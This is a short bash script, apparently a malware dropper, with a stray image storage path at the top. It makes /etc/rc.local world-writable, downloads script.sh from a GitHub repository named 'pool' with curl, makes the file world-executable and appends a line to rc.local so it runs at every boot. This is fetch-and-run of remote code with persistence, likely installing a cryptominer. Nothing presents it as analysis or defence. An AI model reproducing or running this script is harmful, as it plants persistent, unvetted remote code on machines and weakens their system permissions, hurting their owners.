 #!/bin/bash
sleep 10
mkdir /data
cd /data
chmod 777 /etc/rc.local
curl -LO https://github.com/2319763378/pool/raw/master/change/script.sh
chmod 777 /data/script.sh
echo "bash /data/script.sh" >> /etc/rc.local